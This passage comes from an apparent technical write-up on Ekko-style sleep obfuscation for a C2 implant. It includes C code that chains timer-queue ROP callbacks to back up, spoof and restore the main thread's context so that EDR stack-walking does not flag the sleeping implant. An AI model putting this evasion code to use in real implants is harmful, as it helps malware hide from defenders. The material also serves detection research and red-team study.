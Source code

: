 <img src="../assets/img/Ekko_5.png" height="100%" width="100%" class="mx-auto d-block" unselectable="on"/>
<p></p>
Now to deal with the other `Wait:DelayExecution` thread being flagged. This is the state of the main thread during the `WaitForSingleObject` call. I honestly don't know why its callstack apparently traces back to the callback dispatcher, but regardless, we can deal with this. Simply add 3 more ROP gadgets for our callbacks: 

* Back up the main thread state  
* Overwrite the main thread state to spoof it  
* Restore it after rest so execution doesn't fuck up  

This can be done with the following code

```
Instance.Win32.DuplicateHandle((HANDLE)-1, (HANDLE)-2, (HANDLE)-1, &hMainThread, THREAD_ALL_ACCESS, 0, 0);
// GetThreadContext( ThreadHandle, &Context );
RopBackup.Rsp -= 8;
RopBackup.Rip = Instance.Win32.GetThreadContext;
RopBackup.Rcx = hMainThread;
RopBackup.Rdx = &CtxBackup;

// SetThreadContext( ThreadHandle, &Context );
RopSpoof.Rsp -= 8;
RopSpoof.Rip = Instance.Win32.SetThreadContext;
RopSpoof.Rcx = hMainThread;
RopSpoof.Rdx = &CtxSpoof;

// SetThreadContext( ThreadHandle, &Context );
RopFix.Rsp -= 8;
RopFix.Rip = Instance.Win32.SetThreadContext;
RopFix.Rcx = hMainThread;
RopFix.Rdx = &CtxBackup;

// Define other rop gadgets

Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopProtRW, 100, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopMemEnc, 200, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopBackup, 300, 0, WT_EXECUTEINTIMERTHREAD);
Instance.Win32.CreateTimerQueueTimer(&hNewTimer, hTimerQueue, Instance.Win32.NtContinue, &RopSpoof, 400, 0, WT_EXECUTEINTIMERTHREAD);
```